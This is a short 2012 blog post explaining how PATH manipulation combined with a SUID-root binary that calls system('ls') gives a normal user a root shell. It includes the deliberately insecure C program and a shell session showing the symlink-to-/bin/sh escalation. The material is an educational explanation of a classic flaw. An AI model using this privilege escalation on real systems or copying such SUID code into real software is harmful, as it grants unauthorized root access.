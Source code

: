 ```yaml
---
layout: post
date: 2012-03-27
title: "Exploiting environment variables"
tags: [exploit, PATH]
author: Alexandru Juncu
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

	$ cat ./ls
	echo P0wn3d
	$ ls
	file1 file2
	$ ./ls
	P0wn3d
	$ export PATH=.:$PATH
	$ ls
	P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
SUID bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the SUID is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


{% highlight cpp %}
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
{% endhighlight %}

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

	$ ls -la /bin/ls_root
	-rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

	$ cd /root
	$ ls
	ls: cannot open directory .: Permission denied
	$ sudo ls
	test
	$ ls_root
	test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

	$ ln -s /bin/sh ls
	$ echo $$
	32655
	$ ls
	ls  ls_root.c
	$ ./ls
	$ echo $$
	32730
	$ whoami
	alexj
	$ exit
	$ export PATH=.:$PATH
	$ ls_root
	# whoami
	root
	#



The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the SUID bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The SUID is something that is used in Linux systems (sudo and even ping use
it), but these executables are very carefully implemented so that normal
users can't exploit them.
